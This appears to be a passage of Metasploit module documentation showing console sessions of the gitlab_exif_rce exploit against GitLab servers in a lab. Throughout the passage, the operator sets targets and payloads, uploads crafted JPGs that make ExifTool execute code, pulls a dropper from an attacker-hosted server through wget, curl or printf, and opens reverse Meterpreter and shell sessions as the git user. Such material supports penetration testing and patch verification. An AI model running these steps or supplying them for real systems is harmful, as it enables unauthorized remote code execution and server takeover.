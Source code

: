 ```
[*] Uploading S6uji8z.jpg to /6eKwYEoQ2O
[*] Client 10.0.0.7 (Wget/1.17.1 (linux-gnu)) requested /agqzWrd49OBxPkC
[*] Sending payload to 10.0.0.7 (Wget/1.17.1 (linux-gnu))
[*] Meterpreter session 1 opened (10.0.0.9:4444 -> 10.0.0.7:53056 ) at 2021-11-02 01:27:22 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: git
meterpreter > shell
Process 6936 created.
Channel 1 created.
whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

Similar to above, but using `curl` instead:

```
msf6 exploit(multi/http/gitlab_exif_rce) > run

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Iy9pWshQ8gakRvP
[*] Local IP: http://10.0.0.9:8080/Iy9pWshQ8gakRvP
[*] Uploading MMNlv9v.jpg to /hZXc5H1
[*] Client 10.0.0.7 (curl/7.74.0-DEV) requested /Iy9pWshQ8gakRvP
[*] Sending payload to 10.0.0.7 (curl/7.74.0-DEV)
[*] Meterpreter session 6 opened (10.0.0.9:4444 -> 10.0.0.7:50850 ) at 2021-11-02 11:51:42 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter >
```

### GitLab 13.10.2 on CentOS 8. Get reverse shell using printf / reverse_tcp

```
msf6 > use exploits/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set CmdStager::Flavor printf
CmdStager::Flavor => printf
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading W1tHrzXkK.jpg to /mopoTKJq
[+] The target is vulnerable. The error response indicates ExifTool was executed.
[*] Executing Linux Dropper for linux/x86/shell/reverse_tcp
[*] Uploading aVTK6SM33.jpg to /NySTvN3J
[+] Exploit successfully executed.
[*] Command Stager progress -  17.76% done (143/805 bytes)
```